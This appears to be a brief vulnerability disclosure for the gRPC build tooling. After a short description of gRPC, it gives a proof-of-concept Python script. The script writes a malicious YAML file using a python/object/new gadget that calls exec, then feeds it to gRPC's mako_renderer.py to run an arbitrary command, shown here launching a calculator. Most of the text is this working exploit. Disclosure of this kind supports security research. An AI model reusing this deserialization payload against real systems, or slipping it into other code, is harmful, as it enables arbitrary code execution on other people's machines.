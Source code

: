 # Description
gRPC is a modern, open source, high-performance remote procedure call (RPC) framework that can run anywhere. gRPC enables client and server applications to communicate transparently, and simplifies the building of connected systems.
# POC
* run the exploit file
```
import os
os.system("git clone https://github.com/grpc/grpc.git")
payload = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open("exploit.yml","w+").write(payload)
os.chdir("grpc/tools/buildgen/")
cmd = """python3 mako_renderer.py -d ../../../exploit.yml"""
os.system(cmd)
```
* calc will be popped up as a result of arbitrary code execution 
